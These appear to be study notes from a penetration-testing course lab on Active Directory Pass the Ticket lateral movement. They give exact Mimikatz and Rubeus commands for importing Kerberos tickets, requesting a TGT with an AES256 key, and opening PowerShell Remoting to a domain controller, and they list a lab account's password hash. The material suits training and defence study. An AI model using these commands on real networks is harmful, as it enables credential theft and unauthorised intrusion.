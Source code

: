 ## Mimikatz - PowerShell Remoting with Pass the Ticket
- To use PowerShell Remoting with Pass the Ticket, **we can use Mimikatz to import our ticket and then open a PowerShell console** and connect to the target machine. 
- Let's open a new `cmd.exe` and execute `mimikatz.exe`, then import the ticket we collected using `kerberos::ptt`. 
- Once the ticket is imported into our `cmd.exe` session, we can launch a PowerShell command prompt from the same `cmd.exe` and use the command `Enter-PSSession` to connect to the target machine.

## Mimikatz - Pass the Ticket for lateral movement.
- `privilege::debug`
- `kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`
- `exit`
- `powershell`
- `Enter-PSSession -ComputerName DC01`

## Rubeus - PowerShell Remoting with Pass the Ticket
- Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). 
- The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

## Create a sacrificial process with Rubeus
- `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`
- The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.
- Rubeus - Pass the Ticket for lateral movement:
	- `Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`

# Labs
---
john hash : `f1488ed64911a45fea815b2aa1b6732f`
